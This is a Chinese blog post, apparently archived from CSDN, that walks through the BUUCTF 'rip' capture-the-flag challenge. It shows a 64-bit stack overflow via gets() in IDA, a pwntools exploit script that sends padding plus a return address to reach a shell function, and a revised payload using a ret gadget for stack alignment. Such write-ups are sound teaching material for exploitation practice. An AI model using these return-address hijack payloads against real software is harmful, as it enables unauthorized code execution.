





<!--yml
category: 未分类
date: 2022-04-26 14:49:40
-->

# BUUCTF (PWN) RIP详细分析_qy201706的博客-CSDN博客_buuctf rip

> 来源：[https://blog.csdn.net/qy201706/article/details/105397766](https://blog.csdn.net/qy201706/article/details/105397766)

## 很简单的栈溢出，不过对于栈溢出具体过程不理解的会卡的很惨

## 0x1 解题过程

> 由于初学嘛，就看了网上的wp，好像都是之前版本的，现在用就不太对，可能我入坑BUUCTF比较晚，现在用的题都是运行在Ubuntu18上的，故需要考虑堆栈平衡~~

> IDA打开发现main下面还有一个fun()函数，很可疑
> 

> 别一味地F5，这个汇编很容易看明白，这个gets很明显没有限制输入，存在栈溢出漏洞
> 

> 双击s来到Stack of main视图，发现只需存入15个字节即可劫持函数返回地址
> 

> 因此再回来看fun()函数，就是一个系统调用，故payload=‘a’ * 15 + p64(0x401186)
> 

## 0x2:exp

```
 from pwn import *

p = remote('node3.buuoj.cn', 26692)

buf_1 = 'a' * 15 + p64(0x401186)

p.sendline(buf_1)

p.interactive() 
```

## 0x03反思：

> 看了网上那些wp，其实就是老版本的这道题是32位的，而现在是64位的，参数小于6个不会用到栈来传参。而gets（）只有一个参数，所以传递参数只需用到rdi（这你可以看ida的汇编代码，call下面有个mov rdi，rax），这道题的s应该是一个局部变量，23个刚刚覆盖了rbp，然后那两个地址紧接着往下排，0x401198是 “retn” 保证程序能正常返回，然后0x401186在Main函数栈顶。又因为retn相当于pop + 执行，故形成了返回地址劫持～～
> 解决办法：payload=‘a’ * 23+ p64(0x401198) + p64(0x401186) #0x401198为返回地址
> 

> 大神帮忙看看我这个反思是否正确，望指点~